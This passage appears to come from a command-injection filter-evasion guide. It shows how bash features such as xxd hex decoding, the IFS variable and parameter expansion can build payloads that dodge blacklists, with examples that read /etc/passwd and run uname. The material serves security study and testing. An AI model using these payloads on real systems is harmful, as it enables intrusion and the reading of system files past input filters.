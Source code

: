 3. `xxd` command:

    ```bash
    $ xxd -r -p <<< 74657374
    $ xxd -r -ps <(echo 74657374)
    ```

References:
- [Bash Reference Manual: 3.1.2.4 ANSI-C Quoting](https://www.gnu.org/software/bash/manual/bash.html#ANSI_002dC-Quoting)
- [echo man page](https://linux.die.net/man/1/echo)
- [xxd man page](https://linux.die.net/man/1/xxd)

## Shell variables

Bash automatically assigns default values to a number of variables, such as `HOME` or `PATH`. Some of these variables can be used to create payloads. For instance, you can use `IFS` variable as a separator (this is possible since `IFS` contains a list of characters that separate fields):

```bash
$ cat$IFS/etc/passwd
$ echo${IFS}"test"
```

Moreover, you can override `IFS` and use any character as a separator:

```bash
$ IFS=,;`cat<<<uname,-a`
```

References:
- [Bash Reference Manual: 5 Shell Variables](https://www.gnu.org/software/bash/manual/bash.html#Shell-Variables)
- [Bash Reference Manual: 3.5.7 Word Splitting](https://www.gnu.org/software/bash/manual/bash.html#Word-Splitting)

## Shell parameter expansion

The basic form of parameter expansion is `${parameter}`; the value of parameter is substituted:

```bash
$ a="es"; echo "t${a}t"
```

More complex forms of parameter expansions allow you to perform various operations. For instance, you can extract substrings and use them to create payloads:

```bash
$ echo ${HOME:0:1}
$ cat ${HOME:0:1}etc${HOME:0:1}passwd
```

Additionally, match and replace can be useful when working with blacklists:

```bash
$ a=/eAAA/Atc/paAAA/Asswd; echo ${a//AAA\/A/}
```
